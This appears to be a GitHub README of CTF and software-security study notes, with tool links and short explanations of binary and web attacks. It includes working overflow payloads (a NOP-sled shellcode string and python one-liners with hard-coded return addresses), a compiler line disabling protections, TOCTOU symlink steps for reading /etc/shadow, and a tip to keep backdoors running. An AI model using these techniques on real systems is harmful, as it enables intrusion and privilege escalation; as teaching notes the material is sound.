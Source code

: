 # Software-Security

strncpy Issue :
https://blogs.msdn.microsoft.com/oldnewthing/20050107-00/?p=36773/




Resources:
[Adam Doupe](https://github.com/adamdoupe)




## FORENSICS

* https://medium.com/@thereallulz/write-up-codebattle-2018-forensics-and-web-final-round-by-thereallulz-dfe05601e0ea
* https://github.com/DominicBreuker/stego-toolkit
* https://medium.com/@FourOctets/ctf-tidbits-part-1-steganography-ea76cc526b40
* [ZipCracker](https://github.com/hyc/fcrackzip)(http://oldhome.schmorp.de/marc/fcrackzip.html)
* https://www.aldeid.com/wiki/Xortool#Installationhttps://www.aldeid.com/wiki/Xortool#Installation
* https://ctfs.github.io/resources/topics/steganography/invisible-text/README.html



## BINARY ANALYSIS

### Tools
#### Disassemblers
* [Binary Ninja](https://binary.ninja/)
* [IDA](https://www.hex-rays.com/products/ida/)
* [Angr Management](https://github.com/angr/angr-management)
* [GDB-Peda](https://github.com/longld/peda)

#### Decompilers
* [Snowman](https://derevenets.com/)
* [Retargetable Decompiler](https://retdec.com/)
* Binary Ninja has a medium-level IL

#### Online x86 assembler
* [Defuse](https://defuse.ca/online-x86-assembler.htm)

#### Security feature checker
* [Checksec.sh](https://github.com/slimm609/checksec.sh)

### Types of Attacks
#### Environment Variable Tampering
* HOME variable - If a binary is using HOME variable to create a path of a file, then the HOME variable can be tampered to call a different file with same name but malicious content.
* PATH variable - Whenever system files like ls, tidy is called in a binary it first check the PATH variable, if there is a match it calls the file with the matched path. If a path can be appended in the beginning of the PATH variable then the first match would be the path to the malicious file with same name. Also system functions like *execlp* uses PATH variable

#### Dot Dot Slash (../) Attack
In this attack using the ../ in a series, one can reach the root directory. The number of ../ doesn't matter to reach the root. Then one can append the path to a malicious file.

#### Egg Environment Variable Usage
Using putenv() one can add a shellcode to an environment variable. It is called planting an egg in the environment. Then get the address of the environment variable and somehow use this address to invoke the shell. This can be done in two ways. 1) Directly giving address of EGG If an integer array you can directly store address of EGG

     ```C
     int main(int argc, char *argv[]
     {
          int array[8];
          ...
          //Both index and value is being calculated from argv
          array[index] = value;
     }
     ```

Here you can store the address of EGG to the 11th index and execute the shellcode when main returns 

2) Address of Shellcode is prepended with NOP and appended with fillers and then with address of the NOPs so that it goes back to the shellcode

`msg = "\x90"*100 + shellcode + "A"*65416 + "\xb8\xd6\xfd\xff"`

FACT : Environment variables are present in the same stack area as the binary if one can create generate a shell with an EGG and in that shell run the binary
* Shellcodes are readily available [here](http://shell-storm.org/) but they depends on the system.

#### TOCTOU (Time to Check Time to Use) Attack
`//piece of code where access permission of file is checked
//Some amount of time in between access granted and file read 
//piece of code where file is read `
If, in this time between file access granted and actually read, a symlink is created for the file sensitive information like /etc/passwd or /etc/shadow then it can be read. Again it can be used to invoke shell if code for file execution is present instead of reading 
Implementation : Run the binary in background using & and in foreground create a symlink of same name to a malicious file 
FACT : The system does not check whether it is file or symlink

#### Overflowing char array
```C
#define BUFSIZE 512
  int main (int argc, char *argv[]) 
  { 
  char username[BUFSIZE]; 
  char password[BUFSIZE]; 
  ...
  strncpy(password, argv[1], BUFSIZE); 
  strncpy(username, argv[2], BUFSIZE);
  ...
  }
```
This can be overflowed using 
`` <name of binary> `python -c 'print "A"*512'` `python -c 'print "B"*8 +"\xdf\xd6\xff\xff"'` ``

#### Overflowing a short variable
 ```C
 int main(int argc, char *argv[])
{
  char filename[256];
  long max;
  short len;
  ...
  len = strlen(argv[1]);
}
 ```
 Here the len variable is short(2B) can be overflowed. But we can improve it by repeating a series of NOPs followed by address of EGG variable 4096 times
 `` <name of binary> `python -c 'print "\x90\x90"+"\x90\x90\x90\x90\xdf\xd6\xff\xff"*4096'` <other arguments> ``
 `` <name of binary> `python -c 'print "A"*512'` `python -c 'print "B"*8 +"\xdf\xd6\xff\xff"'` ``

### Techniques :
* The very first step: Figure out the nature of the challenge. Is the stack executable? Is there [ASLR](https://searchsecurity.techtarget.com/definition/address-space-layout-randomization-ASLR) (or [PIE](https://eklitzke.org/position-independent-executables)) involved?
* Look for system calls, array with hard-coded array sizes or offsets, excessive number of type castings
* Eggcode compilation to enable hacking
 ```C
 gcc -Wall -O0 -g -fno-omit-frame-pointer -Wno-deprecated-declarations -D_FORTIFY_SOURCE=0 -fno-pie -Wno-format -Wno-format-security -z norelro -z execstack -fno-stack-protector -m32 -mpreferred-stack-boundary=2 -o eggcodefish eggcodefish.c
 ```

* How to keep argc = 0 or How to keep argc = 0 but pass argv ?
```C
char *argv[]={ NULL};
        char *envp[]={"b","c","d",payload,value,NULL};
        execve("<path to binary>", argv,envp );
```
        
* Tips to find which part of string is being taken as EIP. Pass a string like "AAAABBBBCCCCDDDD...." and use gdb-peda to see what is the EIP value when there is segmentation fault. Then replace the EGG variable addresss in place of that part of string. 

* strncpy - Checks \0 at end can be overflowed

## WEB EXPLOITATION

* Php
* JavaScript
* C
* Sqlite
* MySql
* cUrl

* https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/
* (Php Security)[http://phpsec.org/projects/guide/]

[User-Agent Based](https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/)
[Setting User-Agent](https://www.cyberciti.biz/faq/curl-set-user-agent-command-linux-unix/)


## CTF:

* [SSH SOCKS proxy](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel) An example command is listed here: ssh -D 8888 -C -q -N -i <path_to_your_private_key> ctf@<ip_of_your_game_box>, which will create a SOCKS proxy listening at localhost TCP port 8888. You may then setup the SOCKS proxy for your browser.

* Port Forwarding
* TCP Dump
There should always be one person to take tcpdump and analyze the traffic to see the exploit on themselves and replicate them. Might be a good idea to customize the analyzer for pcap files generated by tcpdump to read per port and ip traffic since the services will be running per port 
* Monitor the hack scripts
Always check that the hacks, backdoors created are still running even if executed with a nohup
* SUID problems are where one can get access of shellwith the permission same as that of the binary. This is also called privilege escalation



## Various Attacks
* XPATH Injection
* SQL Injection
* [XSS Injection](https://www.youtube.com/playlist?list=PL1A2CSdiySGIRec2pvDMkYNi3iRO89Zot)
      * Using Webhooks: [requestbin](https://requestbin.fullcontact.com/), [hookb](https://hookbin.com/)
* 
